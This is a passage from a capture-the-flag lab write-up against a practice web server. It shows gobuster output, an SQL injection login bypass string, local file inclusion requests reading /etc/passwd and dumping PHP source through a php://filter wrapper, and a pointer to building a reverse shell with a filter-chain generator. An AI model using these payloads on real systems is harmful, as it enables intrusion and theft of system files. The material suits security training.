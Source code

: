   ```
  /.hta                 (Status: 403) [Size: 276]
  /.hta.php             (Status: 403) [Size: 276]
  /.htpasswd.           (Status: 403) [Size: 276]
  /.htaccess            (Status: 403) [Size: 276]
  /.htaccess.php        (Status: 403) [Size: 276]
  /.htpasswd            (Status: 403) [Size: 276]
  /.htpasswd.php        (Status: 403) [Size: 276]
  /.hta.                (Status: 403) [Size: 276]
  /.htaccess.           (Status: 403) [Size: 276]
  /images               (Status: 301) [Size: 311] [--> http://10.10.76.30/images/]
  /index.html           (Status: 200) [Size: 1759]
  /login.php            (Status: 200) [Size: 834]
  /server-status        (Status: 403) [Size: 276]
  Progress: 13842 / 13845 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```

---

## 🌐 Web Exploitation 

- To make your life easier this is the SQLI I used to bypass login page `' || 1=1;-- -`.
  
- There is also LFI after logging in.

  ```
  http://10.10.76.30/secret-script.php?file=supersecretadminpanel.html

  http://10.10.76.30/secret-script.php?file=/etc/passwd 
  [SNIP!]sshd:x:113:65534::/run/sshd:/usr/sbin/nologin systemd-cntu:/bin/bash

  http://10.10.76.30/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php
  <?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
  ?>
  ```

---

## ⚙️ Shell Access

- I got initial access with Python `php_filter_chain_generator.py`. You can find the script [here](https://github.com/synacktiv/php_filter_chain_generator). Use the script to make the reverse shell and upload it to the target with curl.
